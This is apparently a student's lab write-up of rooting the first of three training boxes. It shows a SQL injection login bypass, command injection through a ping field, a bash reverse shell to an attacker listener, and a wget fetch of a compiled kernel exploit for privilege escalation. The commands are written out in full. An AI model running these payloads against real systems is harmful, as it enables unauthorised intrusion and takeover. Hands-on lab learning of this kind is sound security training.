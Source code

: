 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

Shout out to [@Kyzen-gmg](https://github.com/Kyzen-gmg)  for the range and giving me the idea to do this writeup. 

### It begins...
This is how it started, with a post from an instructor of mine in our class’s Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys he’s talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. \

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them don’t tell me much. They’re all around 90 in length. Maybe hidden within here is something more substantial. So, I sort by length and find a file that’s a bit longer. 

![S](Images/ThatsBetter.png)

That’s much better! We found a full OpenVPN key. With a little research about OpenVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes port scanning so much quicker and more automated by quickly telling you which ports are up and then constructing an Nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the low hanging fruit (and the best option here), I decide to go check out the website on `port 8080`. I’m greeted with a basic admin login page with the URL extension `index.php`. This lets gives me an idea that I may be able to perform a sql injection but I’m still not sure.

![S](Images/phpAdminPage.png)

So, I fire up Burp Suite and check out what’s happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Let’s send this to the repeater module in Burp and check out what’s going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
I’m focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console...

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure, that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So, I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always, I set up a net cat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheat sheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized during engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately, I didn’t get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

## The Final Stage

Now that the OS and Kernel version are both confirmed, it’s a good time to go search for a relevant exploit. I chose to use searchsploit for this on my Kali Box. 

![S](Images/searchsploit.png)

This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.

![S](Images/exploitcopy.png)

Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` to run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`

![S](Images/rootaccess.png)
**We have root**

## Final thoughts on this first box

I had a great time with this exercise. It was a good way to get some practice with Linux privilege escalation exploits that I don’t often get. Most of my experience with Linux priv esc comes in the form of exploiting cronjobs or SUID permissions. So, needless to say this was a welcome change of pace for me. 

Any questions? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on my [LinkedIn](https://www.linkedin.com/in/jwautry/) 

More write-ups will be coming in the future, so make sure to keep a look out for those. I have 2 more boxes to chronicle in this series and loads more projects to take on after that.

**Thanks for reading!**

-J

